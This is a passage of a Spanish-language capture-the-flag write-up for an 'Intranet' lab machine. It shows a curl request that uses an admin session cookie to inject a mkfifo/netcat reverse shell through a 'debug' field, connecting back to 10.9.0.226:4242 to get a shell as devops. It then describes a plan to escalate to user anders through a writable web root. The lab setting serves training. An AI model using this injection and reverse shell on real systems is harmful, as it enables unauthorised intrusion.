 Utilizando `cURL`, que incluye la cookie de sesión de `admin` que creamos anteriormente, implementamos un shell inverso básico. Es importante codificar el signo `&` para que funcione correctamente.

```
curl 'http://<ip>:8080/admin' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aIam6g.Xz0ZQ6RQn80VIfBvm1B2omGwSwo' --data-raw 'debug=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.9.0.226 4242 >/tmp/f'
```

Asi obtenemos el shell inverso con el usuario de `devops` 

<figure><img src="../.gitbook/assets/Intranet/shell.png" alt=""><figcaption></figcaption></figure>

# Shell /devops

{% embed url="https://0xffsec.com/handbook/shells/full-tty/" %}

Al revisar los procesos con `ps aux`, notamos que, en lugar de `www-data` ejecutando `apache2`, es `anders` quien lo hace. Este servidor web Apache podría ser la aplicación web que se ejecuta en el puerto `80`, lo que nos brinda una oportunidad para escalar a los privilegios del usuario `anders`.

Para confirmar nuestra suposición, exploramos el directorio `/var/www/html` y encontramos el archivo `index.html` de la aplicación web que se ejecuta en el puerto `80`. Además, verificamos que tenemos permisos para modificar esta carpeta.
